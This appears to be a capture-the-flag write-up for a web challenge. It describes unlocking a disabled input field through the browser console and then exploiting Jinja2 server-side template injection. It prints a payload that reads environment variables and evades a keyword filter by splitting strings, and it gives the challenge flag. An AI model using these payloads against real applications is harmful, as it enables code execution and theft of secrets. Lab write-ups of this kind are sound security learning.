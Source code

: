 # Challenge: Announce Your Name
- Category: Webex

## Description

<img width="692" height="525" alt="image" src="https://github.com/user-attachments/assets/049cf56d-6656-4456-aa14-0e897e8849d2" />

## Flag: 
`EnXp{N01T53UQFTC34T3DAM5A47ANUK}`

## Solution
Opening the website, i saw this

<img width="1410" height="285" alt="image" src="https://github.com/user-attachments/assets/d66d018f-808d-4b87-80fb-ecd54be6a4bf" />

Here, the typing area was blocked, looking into view-source
```
<script>
(function(){
  var t = document.getElementById('trick');
  
  window.trickKeyHandler = function(e){
    if (t.dataset.locked === '1') {
      e.preventDefault();
      if (e.key && e.key.length === 1) {
        console.log("Typing locked. Use DevTools to enable input.");
      }
    }
  };
```
This block caught my eye, so to enable input i ran the following code in the console
```
var t = document.getElementById('trick');
var clone = t.cloneNode(true);
t.replaceWith(clone);
clone.readOnly = false;
```
Now, since its an announcement page, i was inclined towards thinking its an ssti challenge, so i checked for it by running ``{{5*'5'}}``, which gave me output as ``25``, thus confirming that its both **SSTI** and **Jinja2**

I ran `{{ type.__init__['__globals__']['__builtins__']['__import__']('os')['environ'] }}` to list all the environment variables but it didnt run properly and gave output as

<img width="505" height="129" alt="image" src="https://github.com/user-attachments/assets/47ec94e4-d414-4708-97d2-dd64db59b114" />

The ServerMessage above was a decoy, so i ignored it. 
Since it returned '[REDACTED]' for my payload i decided to concatenate `__globals__, __builtins__,  __import__` all 3 of them by splitting them, 
so my final payload was
```
{{ type.__init__['__glob'+'als__']['__built'+'ins__']['__imp'+'ort__']('os')['environ'] }}
```
This worked! and i got the flag

<img width="702" height="277" alt="image" src="https://github.com/user-attachments/assets/85a055cd-d307-47b3-bea3-fc40113053e5" />
